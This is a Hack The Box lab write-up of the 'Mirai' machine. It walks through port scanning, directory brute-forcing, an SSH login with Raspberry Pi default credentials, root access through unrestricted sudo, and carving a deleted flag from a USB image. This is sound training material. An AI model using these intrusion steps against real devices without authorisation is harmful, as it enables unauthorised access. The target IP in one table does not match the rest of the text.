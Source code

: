 ```yaml
---
layout: post
title: Hack The Box - Mirai Writeup
date: 2024-06-25 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```



![miraiBadge.png](/assets/img/Mirai/miraiBadge.png)

## Summary

By brute forcing directories on port 80 I found `/admin` directory. Accessing it reveals `Pi-hole Version v3.1.4` application. Running `dirsearch` against `/admin` directory shows interesting files. One of them hints that target is probably `Raspbery Pi` machine. I was able to `SSH` into the box using default credentials for `Raspbery Pi`. Enumerating system as user `pi` reveals that this user can run any command with `sudo`. After spawning root shell I found message inside `root.txt` file stating backup of this file should be on USB stick. By looking at contents of `/media/usbstick` we find another text file with message saying that all files from USB stick were deleted. To recover deleted files I created image from USB drive. Analyzing image with `TestDisk` revealed that `root.txt` used to be present on drive. I was able to retrieve the flag by running `strings` command against image file. 

___
## Reconnaissance

### Nmap

```
nmap -sV -sC -p- -oN ./nmapAll.txt --max-retries=1 10.10.10.48
```

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aaef5ce08e86978247ff4ae5401890c5 (DSA)
|   2048 e8c19dc543abfe61233bd7e4af9b7418 (RSA)
|   256 b6a07838d0c810948b44b2eaa017422b (ECDSA)
|_  256 4d6840f720c4e552807a4438b8a2a752 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
1509/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
|_http-favicon: Plex
|_http-title: Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration


| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 22, 53, 80, 32469, 32400 |


#### Port 80

##### Technology

```
lighttpd 1.4.35
```

##### Directory Brute Force

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.10.48/FUZZ -ic -fs 369
```

![fuff2.png](/assets/img/Mirai/fuff2.png)

##### /admin - Pi-hole 

Accessing `/admin` directory reveals `Pi-hole Version v3.1.4` application. Unfortunately I do not have any valid credentials to log in. 

![80admin.png](/assets/img/Mirai/80admin.png)

![80piholeVersion.png](/assets/img/Mirai/80piholeVersion.png)

###### Dirsearch

```
dirsearch -e php,asp,aspx,jsp,py,txt,conf,config,bak,backup,swp,old,db,sql -u http://10.10.10.48/admin
```

![dirsearch.png](/assets/img/Mirai/dirsearch.png)

Looking at contents of `http://10.10.10.48/admin/.git/logs/HEAD` file reveals that target is probably `Raspbery Pi` machine:

```
0000000000000000000000000000000000000000 f204b717078c89b6401b362f084734350ce13a51 root <root@raspberrypi.(none)> 1502650857 +0000	clone: from https://github.com/pi-hole/AdminLTE.git
```

#### Port 32469

```
Platinum UPnP 1.0.5.13
```


___
## Initial Foothold

Assuming that target is `Raspbery Pi` machine I tried to `SSH` to box with default credentials:

```
pi : raspberry
```

![initialAccess.png](/assets/img/Mirai/initialAccess.png)

_____
## Privilege Escalation

### System Enumeration

Running `sudo -l` shows that user can run any command with `sudo`. 

![sudoL.png](/assets/img/Mirai/sudoL.png)

### Root Shell 

First I spawned root shell. 

```
sudo sh -c /bin/bash
```

![escalation.png](/assets/img/Mirai/escalation.png)

### Recovering root.txt

Trying to read `root.txt` we can see message stating that backup file should be on USB stick. 

![rootHint.png](/assets/img/Mirai/rootHint.png)

By looking at contents of `/media/usbstick` we find another text file with message saying that all files from USB stick were deleted. 

![hint2.png](/assets/img/Mirai/hint2.png)

To recover deleted files we can use [TestDisk](https://github.com/cgsecurity/testdisk) , but first we need to create image of USB disk and transfer it to out local machine. 

Listing available disk partitions on system:
```
sudo fdisk -l
```

Creating image:
```
sudo dcfldd if=/dev/sdb of=/tmp/image.img
```

After transferring `image.img` file to my local machine I was able to list deleted files by using `TestDisk`. 

![testdisk.png](/assets/img/Mirai/testdisk.png)

I was not able to recover contents of `root.txt` but now that I know that it used to be present on disk I tried to reveal more data by running `strings` command against image file. This reveals the flag. 

![rootFlag.png](/assets/img/Mirai/rootFlag.png)
